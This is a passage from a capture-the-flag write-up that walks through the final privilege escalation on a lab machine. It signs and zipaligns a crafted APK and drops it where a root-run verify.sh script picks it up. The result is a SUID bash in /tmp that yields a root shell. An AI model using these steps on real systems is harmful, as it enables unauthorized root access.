 Sign the .apk using jarsigner:
```bash
> jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore demo.keystore -storepass password caue.apk demokeys
```

Zipalign:
```bash
> zipalign 4 caue.apk caue-fix.apk
```

Now we upload `caue-fix.apk` to the machine and place it in `/opt/mdm/apk_bin` directory - as this is where the script will look for .apk - so it is processed by the `verify.sh` script.
In just a minute we get our bash with SUID bit:
![](images/image7.png)

## Root
We can simply execute the copy of bash in the `/tmp` folder to get a shell as `root`:
```
will@catch:/tmp$ ./rootbash -p
rootbash-5.0# id
uid=1000(will) gid=1000(will) euid=0(root) egid=0(root) groups=0(root),1000(will)
```

And we are root!